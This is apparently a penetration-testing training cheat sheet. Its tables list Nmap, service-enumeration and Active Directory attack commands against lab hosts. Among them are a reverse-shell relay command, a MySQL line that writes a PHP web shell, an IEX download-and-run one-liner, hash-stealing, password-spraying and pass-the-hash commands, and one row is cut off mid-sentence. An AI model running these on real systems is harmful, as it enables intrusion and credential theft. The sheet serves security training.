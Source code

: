 # Nmap

## Nmap Options

| Nmap Option       | Description                                                               |
|-------------------|---------------------------------------------------------------------------|
| 10.10.10.0/24     | Target network range.                                                     |
| -sn               | Disables port scanning.                                                   |
| -Pn               | Disables ICMP Echo Requests                                               |
| -n                | Disables DNS Resolution.                                                  |
| -PE               | Performs the ping scan by using ICMP Echo Requests against the target.    |
| --packet-trace    | Shows all packets sent and received.                                      |
| --reason          | Displays the reason for a specific result.                                |
| --disable-arp-ping| Disables ARP Ping Requests.                                               |
| --top-ports=<num> | Scans the specified top ports that have been defined as most frequent.    |
| -p-               | Scan all ports.                                                           |
| -p22-110          | Scan all ports between 22 and 110.                                        |
| -p22,25           | Scans only the specified ports 22 and 25.                                 |
| -F                | Scans top 100 ports.                                                      |
| -sS               | Performs a TCP SYN-Scan.                                                  |
| -sA               | Performs a TCP ACK-Scan.                                                  |
| -sU               | Performs a UDP Scan.                                                      |
| -sV               | Scans the discovered services for their versions.                         |
| -sC               | Perform a Script Scan with scripts that are categorized as "default".     |
| --script <script> | Performs a Script Scan by using the specified scripts.                    |
| -O                | Performs an OS Detection Scan to determine the OS of the target.          |
| -A                | Performs OS Detection, Service Detection, and traceroute scans.           |
| -D RND:5          | Sets the number of random Decoys that will be used to scan the target.    |
| -e                | Specifies the network interface that is used for the scan.                |
| -S 10.10.10.200   | Specifies the source IP address for the scan.                             |
| -g                | Specifies the source port for the scan.                                   |
| --dns-server <ns> | DNS resolution is performed by using a specified name server.             |

## Output Options

| Nmap Option       | Description                                                               |
|-------------------|---------------------------------------------------------------------------|
| -oA filename      | Stores the results in all available formats starting with the name of "filename". |
| -oN filename      | Stores the results in normal format with the name "filename".             |
| -oG filename      | Stores the results in "grepable" format with the name of "filename".      |
| -oX filename      | Stores the results in XML format with the name of "filename".             |

## Performance Options

| Nmap Option       | Description                                                               |
|-------------------|---------------------------------------------------------------------------|
| --max-retries <num>| Sets the number of retries for scans of specific ports.                  |
| --stats-every=5s  | Displays scan's status every 5 seconds.                                   |
| -v/-vv            | Displays verbose output during the scan.                                  |
| --initial-rtt-timeout 50ms | Sets the specified time value as initial RTT timeout.           |
| --max-rtt-timeout 100ms | Sets the specified time value as maximum RTT timeout.              |
| --min-rate 300    | Sets the number of packets that will be sent simultaneously.              |
| -T <0-5>          | Specifies the specific timing template.                                   |

# Footprinting

## General Commands

| Command | Description |
|---------|-------------|
| `curl -s https://crt.sh/\?q\=<target-domain>\&output\=json \| jq .` | Certificate transparency. |
| `for i in $(cat ip-addresses.txt);do shodan host $i;done` | Scan each IP address in a list using Shodan. |

## Host-based Enumeration

### FTP

| Command | Description |
|---------|-------------|
| `ftp <FQDN/IP>` | Interact with the FTP service on the target. |
| `nc -nv <FQDN/IP> 21` | Interact with the FTP service on the target. |
| `telnet <FQDN/IP> 21` | Interact with the FTP service on the target. |
| `openssl s_client -connect <FQDN/IP>:21 -starttls ftp` | Interact with the FTP service on the target using encrypted connection. |
| `wget -m --no-passive ftp://anonymous:anonymous@<target>` | Download all available files on the target FTP server. |

### SMB

| Command | Description |
|---------|-------------|
| `smbclient -N -L //<FQDN/IP>` | Null session authentication on SMB. |
| `smbclient //<FQDN/IP>/<share>` | Connect to a specific SMB share. |
| `rpcclient -U "" <FQDN/IP>` | Interaction with the target using RPC. |
| `samrdump.py <FQDN/IP>` | Username enumeration using Impacket scripts. |
| `smbmap -H <FQDN/IP>` | Enumerating SMB shares. |
| `crackmapexec smb <FQDN/IP> --shares -u '' -p ''` | Enumerating SMB shares using null session authentication. |
| `enum4linux-ng.py <FQDN/IP> -A` | SMB enumeration using enum4linux. |

### NFS

| Command | Description |
|---------|-------------|
| `showmount -e <FQDN/IP>` | Show available NFS shares. |
| `mount -t nfs <FQDN/IP>:/<share> ./target-NFS/ -o nolock` | Mount the specific NFS share. |
| `umount ./target-NFS` | Unmount the specific NFS share. |

### DNS

| Command | Description |
|---------|-------------|
| `dig ns <domain.tld> @<nameserver>` | NS request to the specific nameserver. |
| `dig any <domain.tld> @<nameserver>` | ANY request to the specific nameserver. |
| `dig axfr <domain.tld> @<nameserver>` | AXFR request to the specific nameserver. |
| `dnsenum --dnsserver <nameserver> --enum -p 0 -s 0 -o found_subdomains.txt -f ~/subdomains.list <domain.tld>` | Subdomain brute forcing. |

### SMTP

| Command | Description |
|---------|-------------|
| `telnet <FQDN/IP> 25` | Interact with the SMTP service. |

### IMAP/POP3

| Command | Description |
|---------|-------------|
| `curl -k 'imaps://<FQDN/IP>' --user <user>:<password>` | Log in to the IMAPS service using cURL. |
| `openssl s_client -connect <FQDN/IP>:imaps` | Connect to the IMAPS service. |
| `openssl s_client -connect <FQDN/IP>:pop3s` | Connect to the POP3s service. |

### SNMP

| Command | Description |
|---------|-------------|
| `snmpwalk -v2c -c <community string> <FQDN/IP>` | Querying OIDs using snmpwalk. |
| `onesixtyone -c community-strings.list <FQDN/IP>` | Bruteforcing community strings of the SNMP service. |
| `braa <community string>@<FQDN/IP>:.1.*` | Bruteforcing SNMP service OIDs. |

### MySQL

| Command | Description |
|---------|-------------|
| `mysql -u <user> -p<password> -h <FQDN/IP>` | Login to the MySQL server. |

### MSSQL

| Command | Description |
|---------|-------------|
| `mssqlclient.py <user>@<FQDN/IP> -windows-auth` | Log in to the MSSQL server using Windows authentication. |

### IPMI

| Command | Description |
|---------|-------------|
| `msf6 auxiliary(scanner/ipmi/ipmi_version)` | IPMI version detection. |
| `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)` | Dump IPMI hashes. |

### Linux Remote Management

| Command | Description |
|---------|-------------|
| `ssh-audit.py <FQDN/IP>` | Remote security audit against the target SSH service. |
| `ssh <user>@<FQDN/IP>` | Log in to the SSH server using the SSH client. |
| `ssh -i private.key <user>@<FQDN/IP>` | Log in to the SSH server using private key. |
| `ssh <user>@<FQDN/IP> -o PreferredAuthentications=password` | Enforce password-based authentication. |

### Windows Remote Management

| Command | Description |
|---------|-------------|
| `rdp-sec-check.pl <FQDN/IP>` | Check the security settings of the RDP service. |
| `xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>` | Log in to the RDP server from Linux. |
| `evil-winrm -i <FQDN/IP> -u <user> -p <password>` | Log in to the WinRM server. |
| `wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"` | Execute command using the WMI service. |

### Oracle TNS

| Command | Description |
|---------|-------------|
| `./odat.py all -s <FQDN/IP>` | Perform a variety of scans to gather information about the Oracle database services and its components. |
| `sqlplus <user>/<pass>@<FQDN/IP>/<db>` | Log in to the Oracle database. |
| `./odat.py utlfile -s <FQDN/IP> -d <db> -U <user> -P <pass> --sysdba --putFile C:\\insert\\path file.txt ./file.txt` | Upload a file with Oracle RDBMS. |

# Attacking Common Services

## Attacking FTP

| Command | Description |
|---------|-------------|
| `ftp 192.168.2.142` | Connecting to the FTP server using the ftp client. |
| `nc -v 192.168.2.142 21` | Connecting to the FTP server using netcat. |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service. |

## Attacking SMB

| Command | Description |
|---------|-------------|
| `smbclient -N -L //10.129.14.128` | Null-session testing against the SMB service. |
| `smbmap -H 10.129.14.128` | Network share enumeration using smbmap. |
| `smbmap -H 10.129.14.128 -r notes` | Recursive network share enumeration using smbmap. |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the rpcclient. |
| `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeration of the SMB service using enum4linux-ng. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the impacket-psexec. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using crackmapexec. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using impacket-ntlmrelayx. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using impacket-ntlmrelayx. |

## Attacking SQL Databases

| Command | Description |
|---------|-------------|
| `mysql -u julio -pPassword123 -h 10.129.20.13` | Connecting to the MySQL server. |
| `sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30` | Connecting to the MSSQL server. |
| `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux. |
| `sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server. |
| `mysql> SHOW DATABASES;` | Show all available databases in MySQL. |
| `mysql> USE htbusers;` | Select a specific database in MySQL. |
| `mysql> SHOW TABLES;` | Show all available tables in the selected database in MySQL. |
| `mysql> SELECT * FROM users;` | Select all available entries from the "users" table in MySQL. |
| `sqlcmd> SELECT name FROM master.dbo.sysdatabases` | Show all available databases in MSSQL. |
| `sqlcmd> USE htbusers` | Select a specific database in MSSQL. |
| `sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES` | Show all available tables in the selected database in MSSQL. |
| `sqlcmd> SELECT * FROM users` | Select all available entries from the "users" table in MSSQL. |
| `sqlcmd> EXECUTE sp_configure 'show advanced options', 1` | To allow advanced options to be changed. |
| `sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1` | To enable the xp_cmdshell. |
| `sqlcmd> RECONFIGURE` | To be used after each sp_configure command to apply the changes. |
| `sqlcmd> xp_cmdshell 'whoami'` | Execute a system command from MSSQL server. |
| `mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'` | Create a file using MySQL. |
| `mysql> show variables like "secure_file_priv";` | Check if the secure file privileges are empty to read locally stored files on the system. |
| `sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents` | Read local files in MSSQL. |
| `mysql> select LOAD_FILE("/etc/passwd");` | Read local files in MySQL. |
| `sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'` | Hash stealing using the xp_dirtree command in MSSQL. |
| `sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'` | Hash stealing using the xp_subdirs command in MSSQL. |
| `sqlcmd> SELECT srvname, isremote FROM sysservers` | Identify linked servers in MSSQL. |
| `sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Identify the user and its privileges used for the remote connection in MSSQL. |

## Attacking RDP

| Command | Description |
|---------|-------------|
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'` | Password spraying against the RDP service. |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp` | Brute-forcing the RDP service. |
| `rdesktop -u admin -p password123 192.168.2.143` | Connect to the RDP service using rdesktop in Linux. |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}` | Impersonate a user without its password. |
| `net start sessionhijack` | Execute the RDP session hijack. |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` | Enable "Restricted Admin Mode" on the target Windows host. |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA` | Use the Pass-The-Hash technique to login on the target host without a password. |

## Attacking DNS

| Command | Description |
|---------|-------------|
| `dig AXFR @ns1.inlanefreight.htb inlanefreight.htb` | Perform an AXFR zone transfer attempt against a specific name server. |
| `subfinder -d inlanefreight.com -v` | Brute-forcing subdomains. |
| `host support.inlanefreight.com` | DNS lookup for the specified subdomain. |

## Attacking Email Services

| Command | Description |
|---------|-------------|
| `host -t MX microsoft.com` | DNS lookup for mail servers for the specified domain. |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"` | DNS lookup for mail servers for the specified domain. |
| `host -t A mail1.inlanefreight.htb.` | DNS lookup of the IPv4 address for the specified subdomain. |
| `telnet 10.10.110.20 25` | Connect to the SMTP server. |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7` | SMTP user enumeration using the RCPT command against the specified host. |
| `python3 o365spray.py --validate --domain msplaintext.xyz` | Verify the usage

# Active Directory

## General Commands

| Command | Description |
|---------|-------------|
| `nslookup ns1.inlanefreight.com` | Used to query the domain name system and discover the IP address to domain name mapping of the target entered from a Linux-based host. |
| `sudo tcpdump -i ens224` | Used to start capturing network packets on the network interface proceeding the -i option on a Linux-based host. |
| `sudo responder -I ens224 -A` | Used to start responding to & analyzing LLMNR, NBT-NS and MDNS queries on the interface specified proceeding the -I option and operating in Passive Analysis mode which is activated using -A. Performed from a Linux-based host. |
| `fping -asgq 172.16.5.0/23` | Performs a ping sweep on the specified network segment from a Linux-based host. |
| `sudo nmap -v -A -iL hosts.txt -oN /home/User/Documents/host-enum` | Performs an nmap scan with OS detection, version detection, script scanning, and traceroute enabled (-A) based on a list of hosts (hosts.txt) specified in the file proceeding -iL. Then outputs the scan results to the file specified after the -oN option. Performed from a Linux-based host. |
| `sudo git clone https://github.com/ropnop/kerbrute.git` | Uses git to clone the kerbrute tool from a Linux-based host. |
| `make help` | Used to list compiling options that are possible with make from a Linux-based host. |
| `sudo make all` | Used to compile a Kerbrute binary for multiple OS platforms and CPU architectures. |
| `./kerbrute_linux_amd64` | Used to test the chosen compiled Kerbrute binary from a Linux-based host. |
| `sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute` | Used to move the Kerbrute binary to a directory that can be set to be in a Linux user's path. Making it easier to use the tool. |
| `./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results` | Runs the Kerbrute tool to discover usernames in the domain (INLANEFREIGHT.LOCAL) specified proceeding the -d option and the associated domain controller specified proceeding --dc using a wordlist and outputs (-o) the results to a specified file. Performed from a Linux-based host. |

## LLMNR/NTB-NS Poisoning

| Command | Description |
|---------|-------------|
| `responder -h` | Used to display the usage instructions and various options available in Responder from a Linux-based host. |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Uses hashcat to crack NTLMv2 (-m) hashes that were captured by responder and saved in a file (forend_ntlmv2). The cracking is done based on a specified wordlist. |
| `Import-Module .\Inveigh.ps1` | Using the Import-Module PowerShell cmdlet to import the Windows-based tool Inveigh.ps1. |
| `(Get-Command Invoke-Inveigh).Parameters` | Used to output many of the options & functionality available with Invoke-Inveigh. Performed from a Windows-based host. |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y` | Starts Inveigh on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. |
| `.\Inveigh.exe` | Starts the C# implementation of Inveigh from a Windows-based host. |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host. |

## Password Spraying & Password Policies

| Command | Description |
|---------|-------------|
| `#!/bin/bash for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}} do echo $x; done` | Bash script used to generate 16,079,616 possible username combinations from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol` | Uses CrackMapExec and valid credentials (avazquez:Password123) to enumerate the password policy (--pass-pol) from a Linux-based host. |
| `rpcclient -U "" -N 172.16.5.5` | Uses rpcclient to discover information about the domain through SMB NULL sessions. Performed from a Linux-based host. |
| `rpcclient $> querydominfo` | Uses rpcclient to enumerate the password policy in a target Windows domain from a Linux-based host. |
| `enum4linux -P 172.16.5.5` | Uses enum4linux to enumerate the password policy (-P) in a target Windows domain from a Linux-based host. |
| `enum4linux-ng -P 172.16.5.5 -oA ilfreight` | Uses enum4linux-ng to enumerate the password policy (-P) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the -oA option. |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength` | Uses ldapsearch to enumerate the password policy in a target Windows domain from a Linux-based host. |
| `net accounts` | Used to enumerate the password policy in a Windows domain from a Windows-based host. |
| `Import-Module .\PowerView.ps1` | Uses the Import-Module cmdlet to import the PowerView.ps1 tool from a Windows-based host. |
| `Get-DomainPolicy` | Used to enumerate the password policy in a target Windows domain from a Windows-based host. |
| `enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"` | Uses enum4linux to discover user accounts in a target Windows domain, then leverages grep to filter the output to just display the user from a Linux-based host. |
| `rpcclient -U "" -N 172.16.5.5 rpcclient $> enumdomuser` | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 --users` | Uses CrackMapExec to discover users (--users) in a target Windows domain from a Linux-based host. |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "` | Uses ldapsearch to discover users in a target Windows domain, then filters the output using grep to show only the sAMAccountName from a Linux-based host. |
| `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U` | Uses the python tool windapsearch.py to discover users in a target Windows domain from a Linux-based host. |
| `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done` | Bash one-liner used to perform a password spraying attack using rpcclient and a list of users (valid_users.txt) from a Linux-based host. It also filters out failed attempts to make the output cleaner. |
| `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1` | Uses kerbrute and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +` | Uses CrackMapExec and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using grep. |
| `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123` | Uses CrackMapExec to validate a set of credentials from a Linux-based host. |
| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +` | Uses CrackMapExec and the --local-auth flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using grep. |
| `Import-Module .\DomainPasswordSpray.ps1` | Used to import the PowerShell-based tool DomainPasswordSpray.ps1 from a Windows-based host. |
| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue` | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (spray_success) from a Windows-based host. |

## Enumerating Security Controls

| Command | Description |
|---------|-------------|
| `Get-MpComputerStatus` | PowerShell cmdlet used to check the status of Windows Defender Anti-Virus from a Windows-based host. |
| `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections` | PowerShell cmdlet used to view AppLocker policies from a Windows-based host. |
| `$ExecutionContext.SessionState.LanguageMode` | PowerShell script used to discover the PowerShell Language Mode being used on a Windows-based host. Performed from a Windows-based host. |
| `Find-LAPSDelegatedGroups` | A LAPSToolkit function that discovers LAPS Delegated Groups from a Windows-based host. |
| `Find-AdmPwdExtendedRights` | A LAPSToolkit function that checks the rights on each computer with LAPS enabled for any groups with read access and users with All Extended Rights. Performed from a Windows-based host. |
| `Get-LAPSComputers` | A LAPSToolkit function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host. |

## Credentialed Enumeration

| Command | Description |
|---------|-------------|
| `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25` | Connects to a Windows target using valid credentials. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` | Authenticates with a Windows target over smb using valid credentials and attempts to discover more users (--users) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` | Authenticates with a Windows target over smb using valid credentials and attempts to discover groups (--groups) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.125 -u forend -p Klmcargo2 --loggedon-users` | Authenticates with a Windows target over smb using valid credentials and attempts to check for a list of logged on users (--loggedon-users) on the target Windows host. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares` | Authenticates with a Windows target over smb using valid credentials and attempts to discover any smb shares (--shares). Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share Dev-share` | Authenticates with a Windows target over smb using valid credentials and utilizes the CrackMapExec module (-M) spider_plus to go through each readable share (Dev-share) and list all readable files. The results are outputted in JSON. Performed from a Linux-based host. |
| `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5` | Enumerates the target Windows domain using valid credentials and lists shares & permissions available on each within the context of the valid credentials used and the target Windows host (-H). Performed from a Linux-based host. |
| `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SYSVOL --dir-only` | Enumerates the target Windows domain using valid credentials and performs a recursive listing (-R) of the specified share (SYSVOL) and only outputs a list of directories (--dir-only) in the share. Performed from a Linux-based host. |
| `rpcclient $> queryuser 0x457` | Enumerates a target user account in a Windows domain using its relative identifier (0x457). Performed from a Linux-based host. |
| `rpcclient $> enumdomusers` | Discovers user accounts in a target Windows domain and their associated relative identifiers (rid). Performed from a Linux-based host. |
| `psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125` | Impacket tool used to connect to the CLI of a Windows target via the ADMIN$ administrative share with valid credentials. Performed from a Linux-based host. |
| `wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5` | Impacket tool used to connect to the CLI of a Windows target via WMI with valid credentials. Performed from a Linux-based host. |
| `windapsearch.py -h` | Used to display the options and functionality of windapsearch.py. Performed from a Linux-based host. |
| `python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\wley -p transporter@4 --da` | Used to enumerate the domain admins group (--da) using a valid set of credentials on a target Windows domain. Performed from a Linux-based host. |
| `python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\wley -p transporter@4 -PU` | Used to perform a recursive search (-PU) for users with nested permissions using valid credentials. Performed from a Linux-based host. |
| `sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all` | Executes the python implementation of BloodHound (bloodhound.py) with valid credentials and specifies a name server (-ns) and target Windows domain (inlanefreight.local) as well as runs all checks (-c all). Runs using valid credentials. Performed from a Linux-based host. |

## Enumeration by Living Off the Land

| Command | Description |
|---------|-------------|
| `Get-Module` | PowerShell cmdlet used to list all available modules, their version and command options from a Windows-based host. |
| `Import-Module ActiveDirectory` | Loads the Active Directory PowerShell module from a Windows-based host. |
| `Get-ADDomain` | PowerShell cmdlet used to gather Windows domain information from a Windows-based host. |
| `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName` | PowerShell cmdlet used to enumerate user accounts on a target Windows domain and filter by ServicePrincipalName. Performed from a Windows-based host. |
| `Get-ADTrust -Filter *` | PowerShell cmdlet used to enumerate any trust relationships in a target Windows domain and filters by any (-Filter *). Performed from a Windows-based host. |
| `Get-ADGroup -Filter * | select name` | PowerShell cmdlet used to enumerate groups in a target Windows domain and filters by the name of the group (select name). Performed from a Windows-based host. |
| `Get-ADGroup -Identity "Backup Operators"` | PowerShell cmdlet used to search for a specific group (-Identity "Backup Operators"). Performed from a Windows-based host. |
| `Get-ADGroupMember -Identity "Backup Operators"` | PowerShell cmdlet used to discover the members of a specific group (-Identity "Backup Operators"). Performed from a Windows-based host. |
| `Export-PowerViewCSV` | PowerView script used to append results to a CSV file. Performed from a Windows-based host. |
| `ConvertTo-SID` | PowerView script used to convert a User or Group name to its SID. Performed from a Windows-based host. |
| `Get-DomainSPNTicket` | PowerView script used to request the kerberos ticket for a specified service principal name (SPN). Performed from a Windows-based host. |
| `Get-Domain` | PowerView script used to return the AD object for the current (or specified) domain. Performed from a Windows-based host. |
| `Get-DomainController` | PowerView script used to return a list of the target domain controllers for the specified target domain. Performed from a Windows-based host. |
| `Get-DomainUser` | PowerView script used to return all users or specific user objects in AD. Performed from a Windows-based host. |
| `Get-DomainComputer` | PowerView script used to return all computers or specific computer objects in AD. Performed from a Windows-based host. |
| `Get-DomainGroup` | PowerView script used to return all groups or specific group objects in AD. Performed from a Windows-based host. |
| `Get-DomainOU` | PowerView script used to search for all or specific OU objects in AD. Performed from a Windows-based host. |
| `Find-InterestingDomainAcl` | PowerView script used to find object ACLs in the domain with modification rights set to non-built in objects. Performed from a Windows-based host. |
| `Get-DomainGroupMember` | PowerView script used to return the members of a specific domain group. Performed from a Windows-based host. |
| `Get-DomainFileServer` | PowerView script used to return a list of servers likely functioning as file servers. Performed from a Windows-based host. |
| `Get-DomainDFSShare` | PowerView script used to return a list of all distributed file systems for the current (or specified) domain. Performed from a Windows-based host. |
| `Get-DomainGPO` | PowerView script used to return all GPOs or specific GPO objects in AD. Performed from a Windows-based host. |
| `Get-DomainPolicy` | PowerView script used to return the default domain policy or the domain controller policy for the current domain. Performed from a Windows-based host. |
| `Get-NetLocalGroup` | PowerView script used to enumerate local groups on a local or remote machine. Performed from a Windows-based host. |
| `Get-NetLocalGroupMember` | PowerView script used to enumerate members of a specific local group. Performed from a Windows-based host. |
| `Get-NetShare` | PowerView script used to return a list of open shares on a local (or a remote) machine. Performed from a Windows-based host. |
| `Get-NetSession` | PowerView script used to return session information for the local (or a remote) machine. Performed from a Windows-based host. |
| `Test-AdminAccess` | PowerView script used to test if the current user has administrative access to the local (or a remote) machine. Performed from a Windows-based host. |
| `Find-DomainUserLocation` | PowerView script used to find machines where specific users are logged into. Performed from a Windows-based host. |
| `Find-DomainShare` | PowerView script used to find reachable shares on domain machines. Performed from a Windows-based host. |
| `Find-InterestingDomainShareFile` | PowerView script that searches for files matching specific criteria on readable shares in the domain. Performed from a Windows-based host. |
| `Find-LocalAdminAccess` | PowerView script used to find machines on the local domain where the current user has local administrator access. Performed from a Windows-based host. |
| `Get-DomainTrust` | PowerView script that returns domain trusts for the current domain or a specified domain. Performed from a Windows-based host. |
| `Get-ForestTrust` | PowerView script that returns all forest trusts for the current forest or a specified forest. Performed from a Windows-based host. |
| `Get-DomainForeignUser` | PowerView script that enumerates users who are in groups outside of the user's domain. Performed from a Windows-based host. |
| `Get-DomainForeignGroupMember` | PowerView script that enumerates groups with users outside of the group's domain and returns each foreign member. Performed from a Windows-based host. |
| `Get-DomainTrustMapping` | PowerView script that enumerates all trusts for current domain and any others seen. Performed from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Domain Admins" -Recurse` | PowerView script used to list all the members of a target group ("Domain Admins") through the use of the recurse option (-Recurse). Performed from a Windows-based host. |
| `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName` | PowerView script used to find users on the target Windows domain that have the Service Principal Name set. Performed from a Windows-based host. |
| `.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data` | Runs a tool called Snaffler against a target Windows domain that finds various kinds of data in shares that the compromised account has access to. Performed from a Windows-based host. |

## Transferring Files

| Command | Description |
|---------|-------------|
| `sudo python3 -m http.server 8001` | Starts a python web server for quick hosting of files. Performed from a Linux-based host. |
| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"` | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |
| `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts an impacket SMB server for quick hosting of a file. Performed from a Windows-based host. |

## Kerberoasting

| Command | Description |
|---------|-------------|
| `sudo python3 -m pip install .` | Used to install Impacket from inside the directory that gets cloned to the attack host. Performed from a Linux-based host. |
| `GetUserSPNs.py -h` | Impacket tool used to display the options and functionality of GetUserSPNs.py from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday` | Impacket tool used to get a list of SPNs on the target Windows domain from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request` | Impacket tool used to download/request (-request) all TGS tickets for offline processing from a Linux-based host. |
